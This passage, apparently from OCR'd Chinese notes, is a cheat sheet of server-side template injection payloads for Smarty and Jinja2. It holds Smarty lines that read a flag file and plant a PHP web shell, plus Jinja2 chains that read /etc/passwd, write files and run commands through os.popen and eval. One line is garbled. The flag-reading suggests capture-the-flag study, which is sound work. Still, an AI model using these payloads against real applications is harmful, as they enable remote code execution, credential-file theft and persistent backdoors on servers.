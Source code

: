 ### Smatry

```
 {system('cat /flag')}
{if phpinfo()}{/if}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

### Blade

略

## 2. Python中的 SSTI

### Jinja2

```python
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
```